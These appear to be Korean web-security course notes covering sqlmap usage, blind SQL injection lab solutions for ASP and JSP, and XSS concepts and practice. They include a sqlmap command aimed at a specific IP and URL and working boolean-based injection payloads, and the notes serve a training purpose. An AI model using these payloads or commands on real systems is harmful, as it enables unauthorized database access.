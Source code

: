 ## sqlmap with python

sqlmap.org에서 집파일 다운로드 후 풀기

sqlmap.py 옵션 보기(해당 디렉토리로 이동)

```powershell
python sqlmap.py --help
```

취약점 진단해보자

```powershell
python .\sqlmap.py -u http://1.234.183.130:8080/loginAction.jsp --data="id=1&passwd=YQ%3D%3D" p- id
```



취약점을 찾았다

![image-20200922154620142](secure_day2.assets/image-20200922154620142.png)



---

## 16번

### ASP

버프스윗 인트루더

공격코드

asdfasdf@asdf.com'and+ascii(substring(user,1,1))+=+100+and+'a'='a

![image-20200922142451976](secure_day2.assets/image-20200922142451976.png)

인트루더 공격, 답은 dbus

![image-20200922145508777](secure_day2.assets/image-20200922145508777.png)



### JSP

얘는 substr로 해야함, 답은 SEC22

asdfasdf@asdf.com'and+ascii(substr(user,1,1))+=+100+and+'a'='a

![image-20200922151451280](secure_day2.assets/image-20200922151451280.png)

### PHP

ascii 쓰지 말고 문자 자체를 찾는 방법으로 하면 됨

---



## 크로스 사이트 스크립팅 (XSS)

개요 : 다른 사용자를 공격하기 위한 기법

![image-20200922160903319](secure_day2.assets/image-20200922160903319.png)



ex) 게시판에 글을 쓰고 악의 적인 스크립트 삽입 > 게시물 열람하면 사용자 브라우저에서 스크립트 실행됨

![image-20200922161239990](secure_day2.assets/image-20200922161239990.png)

 ### Stored XSS

공격자가 악의적인 스크립트를 취약한 서버에 게시물 형태로 올려놓음

### Dom based XSS

서버와 상호작용 없이 브라우저에서 스크립트가 실행됨

![image-20200922162417337](secure_day2.assets/image-20200922162417337.png)



### 사용자 입력 탈취(키로깅)



방버방법

![image-20200922163818338](secure_day2.assets/image-20200922163818338.png)

우회방법

![image-20200922163831282](secure_day2.assets/image-20200922163831282.png)

입출력값 검증

![image-20200922170154948](secure_day2.assets/image-20200922170154948.png)

상황별 보안대책

![image-20200922170319156](secure_day2.assets/image-20200922170319156.png)



---

## XSS실습

1번문제 정답, 이렇게 해도 되지만,

![image-20200922172847679](secure_day2.assets/image-20200922172847679.png)

난 이부분을 버프스윗에서 찾아서 변경해줌

![image-20200922173440251](secure_day2.assets/image-20200922173440251.png)



![image-20200922173727113](secure_day2.assets/image-20200922173727113.png)



![image-20200922173340335](secure_day2.assets/image-20200922173340335.png)